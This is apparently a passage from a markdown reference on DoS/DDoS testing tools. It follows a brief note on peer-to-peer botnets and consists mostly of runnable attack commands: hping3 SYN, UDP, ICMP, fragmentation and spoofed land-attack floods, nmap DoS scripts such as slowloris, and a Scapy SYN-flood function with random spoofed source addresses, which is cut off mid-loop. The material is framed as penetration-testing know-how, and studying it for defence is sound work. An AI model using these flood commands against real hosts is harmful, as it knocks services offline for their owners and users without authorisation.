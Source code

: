 **Peer-to-Peer Botnets**
- Decentralized command structure
- More resilient to takedown efforts
- Harder to detect and mitigate

---

## DoS/DDoS Testing Tools

### Network Layer Testing Tools

#### Hping3
```bash
# TCP SYN flood
hping3 -S -p 80 --flood target-ip

# UDP flood
hping3 --udp -p 53 --flood target-ip

# ICMP flood
hping3 --icmp --flood target-ip

# Custom packet crafting
hping3 -S -p 80 -i u1000 target-ip  # Send SYN every 1ms

# Fragmentation attack
hping3 -S -p 80 -f target-ip  # Fragment packets

# Land attack (source = destination)
hping3 -S -p 80 -a target-ip target-ip
```

#### Nmap DoS Scripts
```bash
# Various DoS testing scripts
nmap --script dos target-ip

# Specific DoS scripts
nmap --script http-slowloris target-ip
nmap --script smb-flood target-ip
nmap --script ssl-dh-params target-ip

# Custom timing for DoS testing
nmap -T5 --script dos target-ip
```

#### Scapy (Python)
```python
#!/usr/bin/env python3
from scapy.all import *
import random

def syn_flood(target_ip, target_port, packet_count):
    """SYN flood attack using Scapy"""
    for i in range(packet_count):
        # Random source IP and port
        source_ip = ".".join(str(random.randint(1,254)) for _ in range(4))
        source_port = random.randint(1024, 65535)
        
        # Create SYN packet
        packet = IP(src=source_ip, dst=target_ip) / TCP(sport=source_port, dport=target_port, flags="S")
        
        # Send packet
```